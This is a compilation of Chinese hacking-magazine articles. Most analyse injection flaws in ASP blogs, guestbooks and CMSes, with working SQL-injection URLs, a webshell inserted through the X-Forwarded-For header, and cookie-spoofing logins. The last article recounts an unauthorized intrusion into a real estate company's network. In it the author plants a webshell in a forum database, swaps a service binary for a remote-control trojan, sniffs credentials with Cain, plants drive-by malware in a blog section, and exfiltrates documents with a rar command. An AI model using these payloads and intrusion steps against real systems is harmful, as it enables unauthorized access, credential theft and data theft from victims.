Google 搜索关键字“Powered By PJBlog3”，可以找到很多用户，先随便进入一个博客，随便查看里面的一个日志，目的是为了查看写这篇日志的“作者”，一般来说就是管理员名。然后把管理员名作为参数配合前面 VBS 版的利用程序，如图 1，结果出来了。


我们得到的密文是 Sha1 加密过的，它与 MD5 一样是不可逆运算的，网上没有关于在线破解 Sha1 的网站，只能用工具暴力破解了。进入后台可以根据以前手册介绍的方法，大同小异。

### 突破

官方已说明新增一个校验函数，我们就来看看。漏洞文件是 function.asp，代码如下：

```vb
If IsNull(Str) Then
    CheckStr = ""
    Exit Function
End If
Str = Replace(Str, "&", "&amp;")
Str = Replace(Str, "'", "&acute;")
Str = Replace(Str, """", "&quot;")
Str = Replace(Str, "<", "&lt;")
Str = Replace(Str, ">", "&gt;")
Str = Replace(Str, "/", "&#47;")
Str = Replace(Str, "*", "&#42;")
Dim re
Set re = New RegExp
re.IgnoreCase = True
re.Global = True
re.Pattern = "(w)(here)"
Str = re.Replace(Str, "$1h&#101;re")
re.Pattern = "(s)(elect)"
Str = re.Replace(Str, "$1el&#101;ct")
re.Pattern = "(i)(nsert)"
Str = re.Replace(Str, "$1ns&#101;rt")
re.Pattern = "(c)(reate)"
Str = re.Replace(Str, "$1r&#101;ate")
re.Pattern = "(d)(rop)"
Str = re.Replace(Str, "$1ro&#112;")
re.Pattern = "(a)(lter)"
Str = re.Replace(Str, "$1lt&#101;r")
re.Pattern = "(d)(elete)"
Str = re.Replace(Str, "$1el&#101;te")
re.Pattern = "(u)(pdate)"
Str = re.Replace(Str, "$1p&#100;ate")
re.Pattern = "(\s)(or)"
Str = re.Replace(Str, "$1o&#114;")
re.Pattern = "(\n)"
Str = re.Replace(Str, "$1o&#114;")
re.Pattern = "(java)(script)"
Str = re.Replace(Str, "$1scri&#112;t")
re.Pattern = "(ji)(script)"
Str = re.Replace(Str, "$1scri&#112;t")
re.Pattern = "(vb)(script)"
Str = re.Replace(Str, "$1scri&#112;t")
If InStr(Str, "expression") > 0 Then
    Str = Replace(Str, "expression", "e&#173;xpression", 1, -1, 0)
End If
Set re = Nothing
Checkxss = Str
End Function
```

我们提交的参数在这个函数里先是进行判断是否为空，后替换了“&”、“'”、“"”、“<”、“>”等这些敏感字符，接下来还替换一些在注入中常用的几个关键字。

在这里，过滤了单引号并没有什么作用，因为我们构造语句是闭合双引号的。其中过滤了“""”（注意是有两个），我猜写这套函数的安全小组和我一样，认为闭合需要两个双引号吧？而过滤的相关 SQL 语句关键字，我们可以通过 URL 编码或改变大小写来绕过，构造语句如下：

```vb
Action.asp?action=checkAlias&cname=nohack' OR (SELECT top 1 asc(mid(mem_password,1,1)) from blog_member WHERE mem_ID=1)=97 and '1'='1
```

用上面的代码测试，却发现页面无论怎样提交都是返回空白。我再仔细地看 FC 命令的比较结果，原来程序不但新增了一个 Checkxss，还新增了一个 ChkPost 防止外部提交的函数，相关代码如下：

```vb
Function ChkPost()
    Dim server_v1, server_v2
    chkpost = False
    server_v1 = CStr(Request.ServerVariables("HTTP_REFERER"))
    server_v2 = CStr(Request.ServerVariables("SERVER_NAME"))

    if instr(server_v1, replace(replace(server_v2, "http://", ""), "www.", ""))=0 then
        If Mid(server_v1, 8, Len(server_v2))<>server_v2 then
            chkpost = False
        Else
            chkpost = True
        End If
    End If
End Function
```

若大家对 NC 修改并发包感到麻烦，可以用 QuickSpoof 工具来伪造。填好相关的信息，“Spoof”一下官方，结果如图 2、图 3。


### 后记

记得我以前研究的 BBSXP 和 BBSGOOD，都是因为在函数这方面做得不好而导致整站存在注入。不过 PJBlog 即使存在注入影响，也不会太大，主要是 Sha1 的加密起到了一个很好的保护。好了，有什么问题可以到手刃论坛（www.nohack.cn/bbs）找我，论坛 ID：Tommie。

> 编辑点评：在漏洞补丁的基础上分析漏洞的原理，进而对漏洞的补丁进行分析找到新的漏洞，是一种不错的学习方法，值得大家学习。


## 花木兰留言本 0day 分析与利用

- 从本文可以学到：
  1. 留言本的漏洞分析
  2. 类似漏洞的原理说明

前段时间朋友做了个网站，选了花木兰留言本，想让我帮他看看这个留言本的安全性怎么样，于是就有了如下这段故事。

花木兰留言本文件很少，一个首页文件 index.asp，一个数据库连接文件 gustbook_Conn.asp，然后是默认的数据库文件 dqe_gustbook.asp 和一个函数文件 gustbook_sub.asp。因此想分析漏洞只能从其中三个文件入手：index.asp、gustbook_Conn.asp、gustbook_sub.asp。

先去看看连接数据库的文件 gustbook_Conn.asp，加入了容错语句，这个文件里还可以设置后台管理员账号和口令。再来看看后台登录是怎么做的限制，相关代码在 index.asp 文件里。

点击页面上的“管理”就跳到了后台登录处，地址是 http://127.0.0.1/index.asp?lanmu=0&action=login，我们来看看 index.asp 这个文件，管理员账号和口令输入都用 htmlencode 函数做了过滤，如图 1。

```vb
'过滤代码。
Function htmlencode(fString)
If not isnull(fString) then
    fString = replace(fString, "'", "&#39;")
    fString = replace(fString, "<", "&lt;")
    fString = Replace(fString, CHR(32), "&nbsp;")
    fString = Replace(fString, CHR(9), "&nbsp;")
    fString = Replace(fString, CHR(34), "&quot;")
    fString = Replace(fString, CHR(39), "&#39;")
    fString = Replace(fString, CHR(13), "")
    fString = Replace(fString, CHR(10) & CHR(10), "</p><p>")
    fString = Replace(fString, CHR(10), "<br>")
    htmlencode = fString
End If
End Function
```


数据库默认是 asp 后缀的，而且我打开看过，没有防下载表，如果我们能留言提交一句话木马的话，那就可以直接拿到 webshell 了。快来看看留言输入的地方，还是在这个文件里。留言输入提交的内容很简单，就是昵称、标题、内容，如图 2。

```vb
Books_miaozhi=htmlencode(Request.Form("miaozhi"))
If Booke_qing=1 then Books_qingzi="匿名" End If
Books_biaoti=htmlencode(Request.Form("biaoti"))
Books_neirong=htmlencode(Request.Form("neirong"))
If Books_biaoti="" or Books_neirong="" then
    Response.Write "<script>alert('留言标题和内容不能为空!');window.location='index.asp';</script>"
ElseIf len(Books_miaozhi)>14 then
    Response.Write "<script>alert('昵称不能超过14位!');window.location='index.asp';</script>"
ElseIf len(Books_biaoti)>23 or len(Books_biaoti)<2 then
    Response.Write "<script>alert('标题不能为空!');window.location='index.asp';</script>"
ElseIf len(Books_neirong)>500 or len(Books_neirong)<5 then
    Response.Write "<script>alert('留言内容不能少于5个字!');window.location='index.asp';</script>"
Else
    Set rs=Server.CreateObject("adodb.recordset")
    rs.open "select * from ...", conn, 1, 3
    rs.addnew
    rs("lanmu") = Books_lanmu
    rs("biaoti") = Books_biaoti
    rs("neirong") = Books_neirong
    rs("mianzi") = lanmu
    rs("dianji") = 0
    UserIP = Request.ServerVariables("HTTP_X_FORWARDED_FOR")
    If UserIP = "" Then userip = Request.ServerVariables("REMOTE_ADDR")
    rs("ip") = UserIP
    rs.update
    rs.close
    Set rs = nothing
End If
```


可以看出，昵称、标题、内容三个字段也都经过了 htmlencode 函数过滤，但是在写入数据库时，还有另外四个变量，分别是 lanmu、zhiding、shijian、ip，对应栏目、置顶、时间和 IP 地址。前面几个都定下来了，没有办法改变，但 IP 地址是通过 HTTP_X_FORWARDED_FOR 获取，而且也没有过滤，我们可以对提交的数据进行改变。

先来测试一下，先随便提交一段留言，用 WsockExpert 工具把提交留言的数据包抓到，然后我们修改数据包，用 nc 或者其他工具把数据包再次提交。为了便于操作，我这里使用“寂寞的刺猬”写的“post 提交工具”来提交修改后的数据包，如图 3。

点击“测试”把数据包提交上去了，返回信息显示“留言添加成功”。从图中我们可以看出，x-forwarded-for 这里添加的就是 ip 内容，我把它改成了 asp 一句话码。接着再来访问一下数据库文件 dqe_gustbook.asp，如图 4。


从图 4 中我们可以知道，asp 一句话木马已经写入到数据库里，接下来就是上传 asp 大马拿 webshell，我就不继续演示了，大家可以自己下载安装留言板，测试一下这个 0day。

这个漏洞的成因很简单，程序作者对其他变量都使用了 htmlencode 函数进行过滤，偏偏没有对 ip 进行过滤。可能程序作者认为 ip 地址这种数据，一般用户都不会修改，在网站页面里也无法修改。但是，post 提交的数据，我们是可以修改的；类似这种漏洞在其他 CMS 系统及论坛也碰到过，都是由于程序作者认为我们修改不了相关数据导致的。用户输入的任何数据都应该把它当成不安全的，其实，只要使用一下 htmlencode 函数进行过滤就不会出现类似的问题了。

- 防范方法：
  1. 在数据库里加入防下载表；防止数据被下载，虽然这个数据库里没有管理员账户和口令，但可以防止插入一句话木马。
  2. 使用 htmlencode 函数对 UserIP 变量进行过滤。

## 针对 ART2008! CMS 3.1 漏洞的发掘与分析

图幻寒 [B.S.N]

- 从本文可以学到：
- ART2008! CMS 3.1 漏洞分析
- 漏洞的利用实践

本来在网上看到 3.0 版，觉得挺漂亮的就下载下来分析。当分析完成后，官方已经做更新了，所以下载最新的 3.1 版本做测试。不说废话了，直接进入正题，我一般都习惯先从数据源开始检测，发现数据库是以 asp 结尾的，但是加入了防下载代码，如图 1，这样我们就可以 pass 针对数据库插入之类的漏洞了。


继续向下一个方向看，分析数据库调用文件，这里是 **admin_conn.asp**，发现有一段防注入代码，如图 2。


```asp
heike_sss=LCase(request.servervariables("QUERY_STRING"))
heike_fy="'|;and|exec|insert|select|delete|update|count|*|%|chr|mid|master|truncate|char|declare|drop|exe"
heike_array=split(heike_fy,"|")
```

这里把相关的代码发出来给大家看看：

> 文章中使用的工具我会一起打包，如果有什么不明白的地方，可以到《黑客手册》论坛（www.nohack.cn/bbs）去找我，我的论坛 ID 是 rabbitsafe。

（文章中用到的 POST 提交工具 .exe 已经收录在光盘中）

**编辑点评：**  
本文分析了一个留言本的 0day。大家常说，系统越大，文件越多，藏找出漏洞的概率就越大。而这里，作者从只有三个文件的留言本系统中找出一个漏洞，可见漏洞随处存在。另外，文中提供的思路是非常值得学习的，记住：用户端传入的数据都是不安全的。

```asp
for heike_fy_nnnn=0 to ubound(heike_array)
    if instr(heike_sss,heike_array(heike_fy_nnnn))<>0 then
        heike_ip=Request.ServerVariables("REMOTE_ADDR")
        say_word_heike=heike_ip&"，你想干什么？黑我，不要想啦！请删除 SQL 注入符号。"
        response.write "<script>alert('"&say_word_heike&"');history.go(-1);</script>"
        response.end
    end if
next
```

这里仅仅对 GET 提交做了过滤，并且过滤得不是那么严密。大家要看清楚，并没有过滤 and 特殊字符，而是过滤了 and 这类东西。这个防注入代码不能防止我们的进攻，所以先放着，继续向下看。

接下来开始看后台验证问题，页面文件是 **admin_chk.asp**，这个页面又调用了个 **call admin_chk()**。我们来看 **admin_chk()** 的内容吧，它在 **titleb.asp** 文件内，代码如下：

```asp
'************************************************
' 管理员用户检测过程
'************************************************
Sub admin_chk()
    Dim adminuser:adminuser=chkhtm(Request.Cookies("Art2008")("adminuser"))
    Dim adminpass:adminpass=chkhtm(Request.Cookies("Art2008")("adminpass"))
    Dim adminid:adminid=chkhtm(Request.Cookies("Art2008")("adminid"))

    if adminid="3" then
        Call AdminReadonly()
    end if

    if adminuser="" or adminpass="" then
        Response.Redirect config("path")&"admin/login.asp?id=8"
    end if

    Dim AdminChk_sql,AdminChk_rs
    AdminChk_sql = "select * from admin where [user]='"&adminuser&"' and [pass]='"&adminpass&"'"
    Set AdminChk_rs = Server.CreateObject("ADODB.Recordset")
    AdminChk_rs.Open AdminChk_sql,conn,1,1
    if AdminChk_rs.recordcount=0 then
        Response.Cookies("Art2008")("adminuser")=""
        Response.Cookies("Art2008")("adminpass")=""
        Response.Cookies("Art2008")("adminid")=""
        Response.Cookies("Art2008")("OSKEY")=""
        Response.Cookies("Art2008")("purview")=""
        Response.Redirect config("path")&"admin/login.asp?id=8"
    else
        Response.Cookies("Art2008")("adminid")=AdminChk_rs("dj")
        Response.Cookies("Art2008")("purview")=AdminChk_rs("purview")
        Response.Cookies("Art2008")("OSKEY")=AdminChk_rs("OSKEY")
    end if
    AdminChk_rs.close
    set AdminChk_rs=nothing
End Sub
```

这里获取 cookies 值利用 **chkhtm** 函数进行过滤了，由于 chkhtm 对 “'” 进行过滤，导致我们不能利用 SQL 语句绕过登录，代码如下：

```asp
'*******************************
' 函数名：chkhtm(stra)
' 作 用：字符过滤
'*******************************
function chkhtm(stra)
    stra=replace(stra,"<", "&lt;")
```

## 新洞绵绵看


图3　进入后台

继续分析，发现根目录下的 **js-lmcode.asp** 有问题，代码如下：

```asp
lmid=trim(request("lm"))

ord=trim(request("ord"))
fs=trim(request("fs"))

if fs="1" then
    sql="select * from lm where lmid<>''"
    if lmid<>"0" then sql=sql&" and id="&lmid&""
    sql=sql&" order by id "&ord&""
    Set rs = Server.CreateObject("ADODB.RecordSet")
    rs.Open sql,conn,1,1
    while not rs.eof
        id=rs("id")
        lm=rs("lm")
%>
document.write("<dt><a href=<%=list_html_url(id);%> target=_blank title='<%=lm%>'><B><%=lm%></b></a></dt>")
```

在这里 ord 没做过滤，其实上面的 lmid 也没做过滤，但是下面的 ord 更容易写查询语句，毕竟 Access 不支持注释，如图 4、图 5、图 6。

利用常用的 and 1=1 和 and 1=2 来判断，发现返回内容一样，那么说明没有漏洞么？绝对不是，我们随便加个 “'” 就发现会报错，如图 7。

```javascript
stra=replace(stra,">","&gt;")
stra=replace(stra,"'","")
stra=replace(stra,"(","（")
stra=replace(stra,")","）")
stra=replace(stra,";","")
stra=replace(stra,"--","")
stra=replace(stra,"%","%%")
stra=replace(stra,"+","＋")
chkhtm=stra
end function
```


图4　目标 URL


图5　and 1=1 页面


图6　and 1=2 页面


图7　报错页面

虽然不能利用 SQL 绕过，但是发现这里只对 cookie 进行操作，所以就有可能利用 cookie 欺骗绕过后台。我们查看下其它的后台文件，也是调用的 admin_chk.asp 页面，也就是说都只对 cookie 做操作，那么我们就可以直接利用 cookie 登录后台。

直接利用联合查询试试，如图 8。在联合查询中所选定的两个数据表或查询中的列数不匹配。像这种问题直接查看查询的数据库表的列有多少个就写入多少个，我们这里的 lm 是 13 个列表，那么就直接输入 “union select 1,2,3,4,5,6,7,8,9,10,11,12,13 from admin”，如图 9。


图8　联合查询

我们只要使用：**AdminChk_sql = "select * from admin where [user]='"&adminuser&"' and [pass]='"&adminpass&"'"** 查询出来值，那么程序就会自动获取其它的值赋给 cookie，如图 3。

现在已经知道了可以利用 cookie 欺骗进入后台，那么这样就可以开始挖掘前台注入漏洞了。如果有注入漏洞，就会很简单地搞定这个网站了。由于本文写的是常规漏洞挖掘，所以我只以最致命的漏洞来分析，其它一些相对来说危险性低的就不写了（浪费版面），大家也可以自己下载这套代码分析下。


图9　还是报错

现在我们需要看看代码了，在 `/admin/titleb.asp` 文件的第 162 行：

```asp
Function list_html_url(Classid)
    Dim listHtml, lm_path
    listHtml=config("listHtml")
    path=config("path")
    if clng(Classid)<>0 then
        Set rs_lmp = Server.CreateObject("ADODB.RecordSet")
        rs_lmp.Open "select id,lm_path from [lm] where id="& clng(Classid), conn, 1, 1
        lm_path=rs_lmp("lm_path")
        rs_lmp.close:set rs_lmp=nothing
        If listHtml=0 then
            list_html_url=path&"html/"&lm_path
        Else
            list_html_url=path&"news_more.asp?lm="&Classid
        End IF
    Else
        list_html_url=path&"news_more.asp?lm="&Classid
    end if
End Function
```

从这段代码可以看出，利用 `<%=list_html_url(Id)%>` 调用的查询。但是这里查询失败导致上面的错误，所以我们就需要让这里的查询有正确的返回值，这就需要有个 id 值，与 lm 表，还有 Union 联合查询相对应。我们这里联合查询的 1 就对应着 lm 表的 id 值，只要让它的值在 lm 内能查询到，并且有返回值 lm_path 就可以了。

先看 lm 表中的内容，如图 10。这里直接设置为 4，那么它的 lm_path 就有返回值了，如图 11。

看到了吧，有个 2 返回，我们就直接可以利用查询来返回我们需要的东西了，如图 12。

这个网站的代码还有其它的注射漏洞，我就不再继续说了，这个漏洞已经够我们利用的了，直接利用它登录后台添加上传后缀，如图 13。

然后上传 asp 木马，如图 14、图 15。

OK，到这里整个 ART2008! CMS 3.1 漏洞的发掘与分析就给各位看官说完了，如果有任何问题可以到黑手论坛（www.nohack.cn/bbs）提问。

> 编辑点评：
>
> 本文分析了 ART2008! CMS 3.1 的几个漏洞，比较详细，可以作为入门或者加深理解。

## 你是如此的可怕

## ——记对中联企业网站管理系统 V9.9 的源码分析

图 Komy—D& 骡儿

哈哈！五一劳动节放三天假，闲着无聊 DOWN 几份源码分析下，嗯，先从中联企业网站管理系统 V9.9 开始，GO!

### 一、登录验证

系统界面看着不错，不知道它的安全性怎么样，先看看它管理员登录是怎么验证的吧。打开 admin 目录下的 `Admin_ChkLogin.asp`，部分代码如下：

```asp
dim sql,rs
dim username,password,ChekCode
```

```asp
username=replace(trim(request("username")),"'","''")
password=replace(trim(Request("password")),"'","''")
CheckCode=replace(trim(Request("CheckCode")),"'","''")
...
if FoundErr<>True then
  password=md5(password)
  set rs=server.createobject("adodb.recordset")
  sql="select * from Bs_admin where password='"&password&"' and username='"&username&"'"
  ...
```

看来古老的“'or'='or'”漏洞没戏了，这也在情理之中。

### 二、泛滥成灾的 SQL 注入漏洞

看下系统有没有注入漏洞，分别输入 `http://127.1/chinese/Bs_ProductShow.asp?ArticleID=117 and 1=1` 和 `http://127.1/chinese/Bs_ProductShow.asp?ArticleID=117 and 1=2`，返回的结果竟然不一样，汗！看看代码是怎么写的：

```asp
<%
ShowSmallClassType=ShowSmallClassType_Article
dim ArticleID
ArticleID=trim(request("ArticleID"))
if ArticleId="" then
  response.Redirect("Bs_Product.asp")
end if
sql="select * from Bs_Product where ArticleID='" & ArticleID & "'"
Set rs= Server.CreateObject("ADODB.Recordset")
rs.open sql,conn,1,3
if rs.bof and rs.eof then
  response.write("<SCRIPT language='javaScript'>alert('找不到此产品！');")
  response.write("javascript:history.go(-1)</SCRIPT>")
else
  rs("Hits")=rs("Hits")+1
  rs.update
  if rs("hits")>=HitsOfHot then
    rs("Hot")=True
    rs.update
  end if
  BigClassName=rs("BigClassName")
  SmallClassName=rs("SmallClassName")
end if
%>
```

真不知程序员怎么搞的，连个通用防注入都没有——变量 **ArticleID** 仅过滤空格后就进入 SQL 查询语句，注入漏洞产生！这个先放一放，看下其它的文件，**Bs_CoProfile.asp** 部分代码如下：

```asp
<!--#include file="Include/Bs_System.asp"-->
<!--#include file="../Inc/ubbcode.asp"-->
<!--#include file="Include/Bs_SysCoSaJo.asp"-->
<!--#include file="Include/Bs_StrLeft.asp"-->
...
<%if Action="Profile" then%>
  <%=CSJ_Profile%>
<%elseif Action="Ceo" then%>
  <%=CSJ_Ceo%>
<%elseif Action="culture" then%>
  <%=CSJ_Culture%>
<%elseif Action="Organize" then%>
  <%=CSJ_Organize%>
<%elseif Action="Principle" then%>
  <%=CSJ_Principle%>
<%elseif Action="Contact" then%>
  <%=CSJ_Contact%>
<%end if%>
```

然后发现 **rs_Main、sql_Main、CSJ_Profile、CSJ_Profile1、CSJ_Ceo、CSJ_Culture、CSJ_Organize、CSJ_Principle** 被定义在 **Include/Bs_SysCoSaJo.asp**，部分代码如下：

```asp
<%
' 打开站点设置连接
```

```asp
Dim rs_Main, sql_Main, CSJ_Profile, CSJ_Profile1, CSJ_Ceo, CSJ_Culture
CSJ_Organize, CSJ_Principle
Dim CSJ_Contact, CSJ_Bulletin, CSJ_Jobs, CSJ_Sale, CSJ_Salea
Set rs_Main=Server.CreateObject("ADODB.Recordset")
sql_Main="select * from Bs_Company"
rs_Main.open sql_Main,conn,1,1
CSJ_Profile=ubbcode(rs_Main("Profile")) ' 公司简介
CSJ_Profile1=left(rs_Main("Profile"),30) ' 首页公司简介
CSJ_Ceo=ubbcode(rs_Main("Ceo")) ' 总裁致辞
CSJ_Culture=ubbcode(rs_Main("Culture")) ' 公司文化
CSJ_Organize=ubbcode(rs_Main("Organize")) ' 组织机构
CSJ_Principle=ubbcode(rs_Main("Principle")) ' 精神理念
CSJ_Contact=ubbcode(rs_Main("Contact")) ' 联系我们
CSJ_Bulletin=ubbcode(rs_Main("Bulletin")) ' 公司公告
CSJ_Sale=ubbcode(rs_Main("Sale"))
CSJ_Salea=ubbcode(rs_Main("Salea"))
CSJ_Jobs=ubbcode(rs_Main("Job"))
rs_Main.close
set rs_Main=nothing
%>
```

可以看到，全部被 ubbcode 函数转换，这个文件不能注入。而且 **Bs_Sale.asp** 也经过 ubbcode 函数转换，也不可以注入。再看下 **Bs_NewsInfo.asp** 文件，部分代码如下：

```asp
...
<%
if Action="Co" then
  Call M_NewsCo()
elseif Action="Ye" then
  Call M_NewsYe()
elseif Action="Pr" then
  Call M_NewsPr()
end if
%>
...
```

**Bs_SysNews.asp** 里有子过程的详细定义，相关内容如下（分成了三段）：

```asp
...
Sub M_NewsCo()
  if not isEmpty(request.QueryString("id")) then
    id=request.QueryString("id") ' 判断id是否为空；如果不为空就直接获取
  else
    id=1 ' 如果id为空，就定义id的值为1
  end if
  Set rsM = Server.CreateObject("ADODB.Recordset")
  sqlM="Select * From Bs_NewsCo where id="&id ' 没有任何过滤的变量id直接进入SQL查询语句中，注入漏洞产生
  rsM.Open sqlM,conn,3,3
  ' 记录访问次数
  rsM("counter")=rsM("counter")+1
  rsM.update
  nCounter=rsM("counter")
  ' 定义内容
  Content=ubbcode(rsM("content"))
  Call ShowNewsContent()
  rsM.close
  set rsM=nothing
End Sub
%>
```

```asp
<%
Sub M_NewsYe()
  if not isEmpty(request.QueryString("id")) then
    id=request.QueryString("id") ' 判断id是否为空；如果不为空就直接获取
  else
    id=1 ' 如果id为空，就定义id的值为1
  end if
  Set rsM = Server.CreateObject("ADODB.Recordset")
  sqlM="Select * From Bs_NewsYe where id="&id ' 没有任何过滤的变量id直接进入SQL查询语句中，注入漏洞产生
```

### 三、危险的暴库漏洞

看下 **Inc** 目录下的 **conn.asp** 文件，相关代码如下：

```asp
<!--#include file="SqlIn.asp"-->
<%
dim conn
dim connstr
dim db
db="../Database/#Database.mdb"  ' 数据库文件位置
on error resume next
connstr="DBQ="+server.mappath(""&db&"")+";DefaultDir=;DRIVER={Microsoft Access Driver (*.mdb)};"
set conn=server.createobject("ADODB.CONNECTION")
if err then
  err.clear
else
  conn.open connstr
end if
sub CloseConn()
  conn.close
  set conn=nothing
end sub
%>
```

我们看到，没有加入容错语句 **“On Error Resume Next”**，暴库漏洞产生！这下可好了，比注入更方便，我们可以访问 Inc/conn.asp 暴库得到数据库路径，然后下载数据库，通过查看其中的信息获取管理员的密码。

### 四、获得 WebShell

打开 http://127.1/admin/Login.asp 登录后台，功能还真是强大啊！如图2。

这里提供给大家两种获取 WebShell 的方法：

- 1. **第一种：**
  依次选择在线编辑器管理 → 设置样式 → standard1 设置 → 其它类型，然后添加 “asasp” 格式（如图2），保存并预览后上传我们的大马，通过在“代码”视图中得到地址，如图3。
  啊啊，笑着访问我们的 WebShell，如图4。


```asp
rsM.Open sqlM,conn,3,3
'记录访问次数
rsM("counter")=rsM("counter")+1
rsM.update
nCounter=rsM("counter")
'定义内容
content=ubbcode(rsM("content"))
Call ShowNewsContent()
rsM.close
set rsM=nothing
End Sub
%>

<%
'--------------M_NewsPr--------------
Sub M_NewsPr()
  if not IsEmpty(request.QueryString("id")) then  ' 判断 id 是否为空，如果不为空就直接获取
    id=request.QueryString("id")
  else
    id=1   ' 如果 id 为空，就定义 id 的值为 1
  end if
  Set rsM = Server.CreateObject("ADODB.Recordset")
  sqlM="Select * From Bs_NewsPr where id="&id   ' 没有任何过滤的变量 id 直接进入 SQL 查询语句中，注入漏洞产生
  rsM.Open sqlM,conn,3,3
  '记录访问次数
  rsM("counter")=rsM("counter")+1
  rsM.update
  nCounter=rsM("counter")
  '定义内容
  content=ubbcode(rsM("content"))
  Call ShowNewsContent()
```

我们很轻易地发现，**M_NewsCo()**、**M_NewsYe()**、**M_NewsPr()** 这几个过程很相似，都是先判断 id 是否为空，如果不为空就直接获取 id 赋给变量 id；如果为空就赋值为 1，没有经过任何过滤就进入 SQL 查询语句，注入漏洞产生！所以，**Action="Co"**、**Action="Ye"**、**Action="Pr"** 时均有注入漏洞。

其它地方的注入漏洞也是满天飞，我就不再一一列举，下面看看如何利用。我们可以用工具进行猜解，不过前提是要加上工具名 **BS_Admin**，这个是非常规的表，工具中是没有的，如图1。

猜解的时候建议大家使用 Domain，速度比 D 快很多。


LCX西线手语：

这个五一，我休息了三天，这三天我在想一个问题，到底是做程序员累，还是做黑客累？不过从从业人员的角度来讲，专职的程序员还是比专职的黑客多。这说明职业黑客，从爱好者的角度来看，黑客的爱好者应当比程序员爱好者多；还是说明黑客更轻松一些。其实这两者要是想专业化，都是很累人的。支持你走下去的只有兴趣这个动力了。我希望《黑客手册》这本杂志和我编辑的这个栏目，会让大家的兴趣更强烈一些，就让我们继续累下去吧。

## 我对X家地产的漫长渗透

图：梁花浪子

- 本文中的知识点是：
- 动网7.1入侵；
- 替换服务提权；
- Cain 嗅探；
- HD 端口转发；
- 内网 IPC$ 等相关知识。

### 一、脚本的开始


主站为：http://www.homeXXX.com.cn/，看了一会主站，没有什么漏洞，直接查了一下绑定的域名，很明显是独立服务器，除了打不开的都是指向主站的，得到 IP 为 222.x.x.147，如图1。

扩展一步扫了一下 C 段，最后把目标定为：222.x.x.155，直接查下绑了多少域名，选定目标为：http://www.liuxx.com/，是一个美容网站，挂有一个好像荒废了的动网7.1的论坛。直接下载默认数据库成功，本以为会顺利地结束，没想到是艰难的开始。

我打开数据库后发现能破出后台密码，前台的 MD5 破不出来，如图2，跑了半天无功而返。正不知道怎么办的时候，突然想起以前好像在哪看过可以 Cookies 欺骗进前台，于是我找呀找，找到了一个哥们写的文章《Cookies 欺骗进前台》，其中遇到的情况和我一样，利用方法是使用可以修改 Cookies 的浏览器。

先注册一个 ID，自动登录后退出，然后再登录，登录的时候要保存 Cookies 在一天以上。这个时候可以看到 Cookies 信息，需要把 UserID、UserClass、UserName、PassWord 这几个更改为 DV_User 表中的管理员的信息就可以了，然后刷新就 OK，如图3所示。


接下来本以为拿出 N 年前流行的上传备份手法就可以搞定了，结果告诉我什么东东都传不了。刚开始以为是遇到了过滤，结果换了正常的 txt、jpg 等文件还是传不上去，如图4所示。

在没有上传成功的办法下只能在数据库做做手脚了，印象中在哪里见过 dvbbs 数据库插马拿 SHELL 的文章，于是开始找资料，找到一个跟 dvbbs8.1 拿 SHELL 的方法差不多，只是插入位置不同的文章，好像 0802 期“黑手”里介绍的：具体是插入“十╋擴數會整爛燁燶蔟菱∨│╋橾十砋”，“十╋擴數會整爛燁燶蔟菱∨│╋橾十砋”是将 `execute request("#") %><x` 转换成 Unicode 字符以后的结果，到后台管理员添加的地方新加一个管理员，如图5所示。

接着在官方自动通讯设置里加上“卍呀”，为了将 `<% loop <%` 注释掉，最后备份一下，如图6、图7所示。


拿海洋客户端连接失败，狂晕……最后拿老兵以前写的 BEshell 控制端成功连上，如图8。原因不明，只是凭经验多试了几个，最后再换成海洋的马，因为查看服务什么的，还是海洋的方便些。

直接用 ASPSU 试了一下，3389 登录，密码错误。看下替换吧，C 盘有读无写，很多服务都在 C 盘里。正在要放弃的时候，发现 D 盘的一个服务是自动启动，如图9，试了一下可以改名。


直接把远控木马修改后传上去，如图10，接下来就是等待管理员重启了。


图10

### 二、嗅到的数据

等了大概四、五天吧，肉鸡终于重启了，接下来的事情简单了，直接抓出 HASH，在本机破解后进行终端登录，如图11所示。

装好 CAIN，设置 21、80、3389 等端口开始嗅主站 www.homexx.com.cn（123.x.x.147）的数据，


图11

数据，嗅了几天，除嗅到一堆垃圾的 80 数据以外，重要信息一条也没有。这种情况可能是嗅探得不对，或者是管理员根本没登录。

自己找到后台，用密码试一下，看看能不能记录。用 GOOGLE 和扫描器狂扫 www.homexx.com.cn 后台，扫了一天 GOOGLE 找出了几个分站的后台，链接为：“http://community.homexx.com.cn/manager/”，ping 了下分站，IP 地址为 123.x.x.148。利用 CAIN 进行设置，后开始嗅，到了第二天还是一无所获。


图12

这个时候冷静下来开始分析原因，跟朋友讨论了下，开始怀疑 http://community.homexx.com.cn 和 http://community.homexx.com.cn/manager/ 不是同一个服务器，也就是说管理后台是另一台服务器。

后来想想这种可能性极小，最后通过查分站管理登录的源码发现 CAIN 里好像没有这个字段，如图12所示，怪不得嗅不到呢。在 CAIN 设置里添加了这两个字段，如图13，开始嗅探吧。


图13

出门去买杂志，回来时发现已经嗅到分站后台的账号和 MD5 了，如图14所示。密码是纯数字的，现在登录后台，如图15所示。

本以为很高兴地终于找到了房东的电话，翻了半天才发现是所属经纪人，换句话说还是中介，真是一个字呀，都闷！这其中还发现有一个内部论坛，地址为：http://sf2.homexx.com.cn/，直接访问会提示错误，如图16所示。


图14


图15


图16

ping 下 IP，为 123.x.x.145，用扫描器扫了下整个段，都是 X 家的，有钱人就是不一样。前面几乎用尽了所有提权方法，希望用这个后台突破口可以登上 X 家的大船，没想到最后的结果还是……涛声依旧。

### 三、挂出的突破

继续几天的突破，依旧没有进展，没办法，只能在后台看看有什么地方能挂马，估计应该有管理员可以同时管理这个分站和主站。找了一下发现，只有“博文管理”的地方可以挂马，如图17所示，不过点击率几乎为零，但只能先这样了。

等啊等等，熬过了一个星期的样子，终于有一台机器上线了，如图18所示。

马上对这台机器翻箱倒柜，上传了一个 ll.txt，内容如下：

- c:\*.doc
- c:\*.pdf
- c:\*.xls
- c:\*.ppt
- c:\*.jpg
- c:\*.txt

接着使用 RAR 进行打包，并设置密码为 hack，命令为 `rar.exe a -r0 -hpHack "C:\down.rar" @ll.txt`，并打包为 down.rar。从下回来的东西当中才知道，中介挣的钱真的 XX，如图19所示。

无意中抓下了机器的屏幕显示，却发现正是内部论坛，并有一个 HERP 管理信息系统，原来是从这里登录进去的，并看到房源管理系统，如图20所示。

这让我感觉离成功的大门又近了一步，马上开始分析键盘记录，费了好半天时间，终于分析出 HERP 管理信息系统的登录密码。登录进去转了一圈，没想到的是除了点击房源管理系统是一片空白以外，其它的内部论坛等链接都可以访问，但是都没有我想要的信息，如图21所示。

这种情况还真没遇到过，又过了几天……


图17


图18


图19


